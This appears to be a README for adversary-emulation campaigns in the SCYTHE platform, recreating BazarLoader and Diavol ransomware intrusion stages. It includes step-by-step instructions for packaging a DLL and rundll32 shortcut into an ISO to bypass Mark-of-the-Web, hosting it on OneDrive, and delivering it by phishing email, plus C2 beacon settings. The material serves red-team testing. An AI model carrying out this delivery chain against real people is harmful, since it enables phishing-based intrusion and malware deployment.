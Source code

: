 # BazarLoader

BazarLoader is used as part of the initial access portion of multiple threat groups. The threat focuses on bypassing defenses and is commonly changing TTPs. In this threat, we cover a number of different examples observed in the wild.

## BazarLoader Excel to WMIC to PowerShell to rundll32.exe
This CTI comes from https://app.any.run/tasks/c5dc698b-8e86-4e50-8b32-d8f45f7538b3/

### BazarLoaderStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `BazarLoaderStage0` with HTTPS
3. Import from Existing Threat: BazarLoaderStage0
4. Modify the process hollowing command to match the location where Microsoft Excel is installed in the target system
5. Launch the Campaign
6. Start Stage 1 and 2 before execution

### BazarLoaderStage1
1. Create a new campaign `BazarLoaderStage1` with HTTPS
2. Import from Existing Threat: BazarLoaderStage1
3. Launch the Campaign
4. Save the 64-bit EXE as `BazarLoaderStage1.exe`
5. Upload to VFS:/shared/BazarLoader/BazarLoaderStage1.exe

### BazarLoaderStage2
1. Create a new campaign `BazarLoaderStage2` with HTTPS
2. Add any automation you would like to execute
3. Launch the Campaign
4. Download the DLL with entry-point set to `setscreen`
5. Save the DLL as `87764675478.dll`
6. Upload the DLL to VFS:/shared/BazarLoader/87764675478.dll

## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2 or create any automation you would like to execute
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/Diavol


